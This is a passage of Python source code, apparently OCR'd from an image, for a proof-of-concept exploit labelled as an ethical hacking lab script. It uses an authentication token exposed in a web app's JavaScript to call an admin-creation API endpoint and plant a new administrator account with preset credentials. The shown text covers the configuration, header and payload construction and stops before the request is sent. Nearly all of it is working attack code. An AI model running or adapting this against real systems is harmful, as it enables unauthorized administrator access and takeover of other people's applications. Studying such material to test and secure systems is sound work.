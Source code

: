     # Desired credentials for the new PoC admin
    NEW_ADMIN_USERNAME = "js_bypass_admin"
    NEW_ADMIN_PASSWORD = "SecureP@sswordByp@ss123"
    NEW_ADMIN_EMAIL = f"{NEW_ADMIN_USERNAME}@lab.example.com"
    # --- ---

    def check_config():
        if "default-target-if-not-set.com" in TARGET_BASE_URL or \
           "/default/api/createAdmin" in VULN_ENDPOINT_PATH or \
           "default_dummy_token" in EXPOSED_TOKEN:
            print("[ERROR] Default configuration values detected. ")
            print("        Please ensure TARGET_BASE_URL, VULN_ENDPOINT_PATH, EXPOSED_TOKEN, TOKEN_HEADER_NAME are correctly set as environment variables or in the script.")
            print("        Example: export TARGET_BASE_URL=\"http://localhost:3000\"")
            sys.exit(1)

    def create_admin_poc():
        check_config()
        
        exploit_url = f"{TARGET_BASE_URL}{VULN_ENDPOINT_PATH}"

        headers = {
            "Content-Type": "application/json",
            "User-Agent": "Educational PoC Script (Ethical Hacking Lab)"
            # Add other headers if the application seems to expect them
        }
        if IS_BEARER_TOKEN:
            headers[TOKEN_HEADER_NAME] = f"Bearer {EXPOSED_TOKEN}"
        else:
            headers[TOKEN_HEADER_NAME] = EXPOSED_TOKEN

        # Payload structure might need adjustment based on API specifics
        # Sometimes you need to guess or look for other JS code that makes similar POST requests
        payload = {
            "username": NEW_ADMIN_USERNAME,
            "password": NEW_ADMIN_PASSWORD,
            "email": NEW_ADMIN_EMAIL,
            "role": "administrator" # This field is a common guess
        }

        print(f"[INFO] Attempting to create admin user '{NEW_ADMIN_USERNAME}'")
        print(f"  URL: POST {exploit_url}")
        print(f"  Headers: {json.dumps(headers, indent=2)}")
        print(f"  Payload: {json.dumps(payload, indent=2)}")

